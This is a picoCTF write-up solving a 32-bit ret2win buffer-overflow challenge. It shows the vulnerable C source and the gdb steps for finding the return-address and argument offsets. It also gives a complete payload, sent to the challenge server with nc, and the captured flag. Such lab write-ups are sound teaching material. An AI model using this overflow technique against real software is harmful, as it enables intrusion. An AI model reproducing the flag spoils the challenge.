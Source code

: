 ```yaml
---
layout: writeup
category: picoCTF
chall_description: https://i.imgur.com/QrT2WHP.png
points: 300
solves: 3110
tags: picoCTF pwn pwn/buffer-overflow pwn/ret2win pwn/args-on-stack pwn/gets
date: 1337-01-01
comments: false
---
```


Control the return address and arguments  
This time you'll need to control the arguments to the function you return to! Can you get the flag from this [program](https://github.com/Nightxade/ctf-writeups/tree/master/assets/CTFs/picoCTF/bo2-vuln)?  
You can view [source](https://github.com/Nightxade/ctf-writeups/tree/master/assets/CTFs/picoCTF/bo2-vuln.c) here. And connect with it using `nc saturn.picoctf.net [port #]`

---
We're given an ELF binary and a C source file. Here's the C source:  

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

First things first, do `nano flag.txt` and enter whatever text you’d like into it. This is just so you can run the program in your local machine.  

## Source Analysis:  
Now, looking at the code, and knowing this is a buffer overflow challenge, we notice that the `main()` function calls the `vuln()` function, which then uses the `gets()` function to obtain user input. The `gets()` function is known to be insecure, so we can attack this line of code with a buffer overflow.  

The program retrieves user input and stores it into a variable buf with a buffer size of `BUFSIZE=100`. Hence, all inputs past byte 100 should overflow onto the stack.  

We are also given a `win` function, which retrieves the `flag.txt` file and prints it if two conditions are required: `arg1`, the first function parameter, must be equivalent to `0xcafef00d` and `arg2`, the second function parameter, must be equivalent to `0xf00df00d`.  

Thus, we must do as follows:  

1. Write the win function address into the eip register, which denotes the address of the next instruction to run and is stored somewhere in the stack.  
2. Modify the arg1 and arg2 such that they equal the aforementioned values.  

## Dynamic Analysis:  

### Step 1:  
`chmod +x vuln` to allow execution access
`gdb vuln` to launch the gdb debugger

Use a website (or make your own program) that returns a random string of any length. I personally used a length of 120 (anything reasonably greater than 100 is suitable for now, given that we need to input a value longer than the buffer length) and only the characters 0-9.   

My string was  

    850542294469848845479729569924849643415873641680750387752959608870162960336860448349356446615742071097671930231073322801

Now run the function with the r command and input the string. For my input, I received the following error message:  

    Program received signal SIGSEGV, Segmentation fault.
    0x32333337 in ?? ()


The `0x32333337` denotes the address that the program attempted to return to, i.e. what was written into the eip register. `0x32333337` is `2337` in ascii, but because of little endianness, we have to reverse this string ⇒ `7332`.  
Looking back at the string, notice that `7332` is located at decimal offset 112

<pre>8505422944698488454797295699248496434158736416807503877529596088701629603368604483493564466157420710976719302310<b>7332</b>2801</pre>

Thus, `eip`, the return address register, can be overwritten with the bytes at offset 112 in the input.  

We need to write the win function address into `eip`, so let’s check that with gdb.  
`disass win` should show that the function is located at address `0x08049296`  

Hence, we can write an input file to send to the program:  

<pre 
  class="command-line" 
  data-prompt="kali@kali $"
><code class="language-bash">python -c "print('a'*112,end='')" > input
echo -en '\x96\x92\x04\x08' >> input</code>
</pre>

Let's test it out:  

<pre 
  class="command-line" 
  data-prompt="(gdb)"
><code class="language-bash">b win
r < input</code>
</pre>

Confirm that the program pauses execution at `Breakpoint 1, 0x0804929e in win ()`  

### Step 2:  
Now we need to modify `arg1` and `arg2` to `0xcafef00d` and `0xf00df00d`.  
`disass win` includes these two lines of assembly:  

    0x0804930c <+118>:   cmpl   $0xcafef00d,0x8(%ebp)
    0x08049315 <+127>:   cmpl   $0xf00df00d,0xc(%ebp)

Comparing it to the source code, this tells us that `arg1` must be located at `$ebp+0x8` and `arg2` must be located at `$ebp+0xc`.  

Let’s check the offset of `ebp` in our input:  
Generate a random string again. I chose a random string of 32 numbers.  
`echo -n '59144761475142004167455988422375' >> input` to append your random string to your input file  

<pre 
  class="command-line" 
  data-prompt="(gdb)"
><code class="language-bash">b *win+118
r < input</code>
</pre>

`x/2x $ebp+0x8` to show `$ebp+0x8` and `$ebp+0xc` in the stack ⇒  
`0xffd2d3b4:     0x31363734      0x31353734`  

`0x31363734` ⇒ `1674` in ASCII ⇒ reverse because of little endianness = `4761`  

<pre>5914<b>4761</b>475142004167455988422375</pre>

Thus, `$ebp+0x8` is located 4 bytes after `eip`, the return address, and `$ebp+0xc` is located 8 bytes after `eip`.
Let’s rewrite the input file:

<pre 
  class="command-line" 
  data-prompt="kali@kali $"
><code class="language-bash">python -c "print('a'*112,end='')" > input
echo -en '\x96\x92\x04\x08\x00\x00\x00\x00\x0d\xf0\xfe\xca\x0d\xf0\x0d\xf0' >> input</code>
</pre>
(remember little endianness means you must reverse every group of four bytes)  

`./vuln < input` should return the contents of your flag.txt file!  
`nc -q 2 saturn.picoctf.net 64689 < input` to get the flag. Note that the `-q 2` makes the connection wait 2 seconds after the EOF (end of file) before closing input, which allows us to receive the flag.  

    picoCTF{argum3nt5_4_d4yZ_27ecbf40}